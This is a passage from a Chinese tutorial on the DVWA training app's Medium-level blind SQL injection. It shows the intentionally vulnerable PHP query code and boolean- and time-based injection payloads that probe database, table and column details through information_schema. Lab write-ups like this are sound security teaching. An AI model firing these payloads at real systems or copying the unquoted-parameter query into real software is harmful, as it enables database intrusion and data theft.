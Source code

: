     <?php 
    
    if( isset( $_POST[ 'Submit' ]  ) ) { 
        // Get input 
        $id = $_POST[ 'id' ]; 
        $id = mysql_real_escape_string( $id ); 
    
        // Check database 
        $getid  = "SELECT first_name, last_name FROM users WHERE user_id = $id;"; 
        $result = mysql_query( $getid ); // Removed 'or die' to suppress mysql errors 
    
        // Get results 
        $num = @mysql_numrows( $result ); // The '@' character suppresses errors 
        if( $num > 0 ) { 
            // Feedback for end user 
            echo '<pre>User ID exists in the database.</pre>'; 
        } 
        else { 
            // Feedback for end user 
            echo '<pre>User ID is MISSING from the database.</pre>'; 
        } 
    
        //mysql_close(); 
    } 
    
    ?> 

可以看到，Medium级别的代码利用mysql_real_escape_string函数对特殊符号

\x00,\n,\r,\,’,”,\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。

![][17]

### **漏洞利用**虽然前端使用了下拉选择菜单，但我们依然可以通过抓包改参数id，提交恶意构造的查询参数。

之前已经介绍了详细的盲注流程，这里就简要演示几个。

首先是 **基于布尔的盲注** ： 

抓包改参数id为1 and length(database())=4 #，显示存在，说明数据库名的长度为4个字符；

抓包改参数id为1 and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #，显示存在，说明数据中的第一个表名长度为9个字符；

抓包改参数id为1 and (select count(column_name) from information_schema.columns where table_name= 0×7573657273)=8 #，（0×7573657273为users的16进制），显示存在，说明uers表有8个字段。

然后是 **基于时间的盲注** ： 

抓包改参数id为1 and if(length(database())=4,sleep(5),1) #，明显延迟，说明数据库名的长度为4个字符；

抓包改参数id为1 and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9,sleep(5),1) #，明显延迟，说明数据中的第一个表名长度为9个字符；

抓包改参数id为1 and if((select count(column_name) from information_schema.columns where table_name=0×7573657273 )=8,sleep(5),1) #，明显延迟，说明uers表有8个字段。

## **High**服务器端核心代码


[1]: http://www.freebuf.com/articles/web/120985.html?utm_source=tuicool&utm_medium=referral
[4]: http://www.dvwa.co.uk/
[5]: http://img1.tuicool.com/7VvYrm2.jpg!web
[6]: http://www.freebuf.com/sectool/102661.html
[7]: http://www.freebuf.com/articles/web/116437.html
[8]: http://www.freebuf.com/articles/web/116714.html
[9]: http://www.freebuf.com/articles/web/118352.html
[10]: http://www.freebuf.com/articles/web/119150.html
[11]: http://www.freebuf.com/articles/web/119467.html
[12]: http://www.freebuf.com/articles/web/119692.html
[13]: http://www.freebuf.com/articles/web/120747.html
[14]: http://img1.tuicool.com/IZfEn2R.jpg!web
[15]: http://img2.tuicool.com/q2QBziu.jpg!web
[16]: http://img0.tuicool.com/3mMRnmF.jpg!web
[17]: http://img1.tuicool.com/bEFjaeU.jpg!web